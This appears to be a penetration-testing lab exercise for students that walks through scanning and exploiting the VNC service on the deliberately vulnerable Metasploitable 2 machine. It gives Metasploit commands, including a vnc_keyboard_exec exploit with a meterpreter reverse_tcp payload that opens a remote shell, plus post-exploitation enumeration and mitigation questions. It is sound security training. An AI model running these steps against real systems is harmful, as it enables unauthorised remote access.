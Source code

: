 # Task: Exploiting VNC Service on Metasploitable 2 (Port 5900)

### Learning Objectives

By the end of this exercise, you will be able to:

* Perform service enumeration on a target system.
* Identify the VNC service running on port `5900`.
* Use Metasploit to exploit weak authentication in VNC.
* Gain a remote Virtual Network Computing on Metasploitable 2.
* Understand the importance of secure configurations for remote desktop services.



### Background

Metasploitable 2 is an intentionally vulnerable Linux machine used for penetration testing practice. One of its services, **VNC (Virtual Network Computing)**, is exposed on port **5900**. VNC allows remote desktop access, but if misconfigured (like using weak authentication), attackers can gain control of the system.



### Lab Requirements

* Kali Linux (Attacker)
* Metasploitable 2 (Target)
* Both machines on the same network (e.g., VirtualBox/VMware Host-only or NAT network).



### Step 1: Reconnaissance with Nmap

Scan Metasploitable to find open ports:

```bash
nmap -sV -p 5900 <target_ip>
```

* `-sV` → Detect service version
* `-p 5900` → Scan only the VNC port

👉 Expected Output:
Shows `5900/tcp open vnc`.
<img width="950" height="227" alt="image" src="https://github.com/user-attachments/assets/ab0d045e-6cc1-4539-97f9-d5bb961feb22" />



### Step 2: Search for Vulnerabilities in Metasploit

Start Metasploit:

```bash
msfconsole
```

Search for VNC-related exploits:
search vnc using the command line
```bash
grep scanner search vnc
```

👉 You should find modules like:

* `auxiliary/scanner/vnc/vnc_login`
<img width="1365" height="551" alt="vncv 2" src="https://github.com/user-attachments/assets/fc3283c3-38a0-404e-ad52-190f988cc341" />



### Step 3: Set-up Options

Set target IP:

```bash
set RHOSTS <target_ip>
run
```

<img width="1365" height="560" alt="vncv 3" src="https://github.com/user-attachments/assets/afd774a7-67ff-48ec-8ee6-e2a11b59d12e" />




### Step 4: Exploit and Gain Access

Now, attempt to interact with the session:

```bash
use exploit/multi/vnc/vnc_keyboard_exec
set RHOST <target_ip>
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST <your_kali_ip>
exploit
```

👉 Expected Result:
You get a **Meterpreter session** or a remote shell on Metasploitable.



### Step 5: Post-Exploitation

Once inside:

```bash
shell
whoami
uname -a
```

* Confirm you have remote access.
* Enumerate the system.


### Step 6: Discussion / Mitigation

* Why is running VNC without authentication dangerous?
* How should VNC be secured? (passwords, encryption, network restrictions, VPNs).



###  Deliverables for Students

* Nmap scan result screenshot.
* Proof of successful VNC exploitation (shell access).
* Short write-up: *“How could this vulnerability be prevented in a real system?”*
